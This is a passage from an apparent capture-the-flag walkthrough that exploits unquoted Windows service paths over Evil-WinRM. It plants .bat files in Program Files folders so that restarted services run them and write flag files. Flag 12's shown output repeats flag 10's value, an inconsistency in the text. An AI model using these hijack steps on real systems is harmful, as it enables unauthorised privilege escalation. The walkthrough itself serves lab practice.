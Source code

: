 ```powershell

# Stop and start the service
*Evil-WinRM* PS C:\> Stop-Service FakeAntivirus -Force
*Evil-WinRM* PS C:\> Start-Service FakeAntivirus

# Check for flag
*Evil-WinRM* PS C:\> Get-Content C:\ws_unquoted1.txt
FLAG{N************6}
```

**🎯 FLAG 10 FOUND**: FLAG{N**********6} - Unquoted service path 1

### FLAG 11: BackupManager Unquoted Path

**Location**: BackupManager service  
**Difficulty**: Medium

```powershell
# Check service details
*Evil-WinRM* PS C:\> sc.exe qc BackupManager

SERVICE_NAME: BackupManager
        BINARY_PATH_NAME   : C:\Program Files\Backup Manager\Service\backup.exe

# Create exploit
*Evil-WinRM* PS C:\> New-Item -ItemType File -Path "C:\Program Files\Backup.bat" -Force
*Evil-WinRM* PS C:\> Set-Content "C:\Program Files\Backup.bat" 'echo FLAG{CLEFABLE09888919} > C:\ws_unquoted2.txt'

# Restart service
*Evil-WinRM* PS C:\> Restart-Service BackupManager -Force

*Evil-WinRM* PS C:\> Get-Content C:\ws_unquoted2.txt
FLAG{C***********9}
```

**🎯 FLAG 11 FOUND**: FLAG{C**********9} - Unquoted service path 2

### FLAG 12: RemoteSupportAgent Unquoted Path

**Location**: RemoteSupportAgent service  
**Difficulty**: Medium

```powershell
# For Program Files (x86)
*Evil-WinRM* PS C:\> sc.exe qc RemoteSupportAgent

SERVICE_NAME: RemoteSupportAgent
        BINARY_PATH_NAME   : C:\Program Files (x86)\Remote Support Tool\Agent\agent.exe

# Note the (x86) - need different hijack point
*Evil-WinRM* PS C:\> echo 'echo FLAG > C:\ws_unquoted3.txt' > "C:\Program Files (x86)\Remote.bat"

*Evil-WinRM* PS C:\> Restart-Service RemoteSupportAgent -Force

*Evil-WinRM* PS C:\> Get-Content C:\ws_unquoted3.txt
FLAG{N**********6}
```
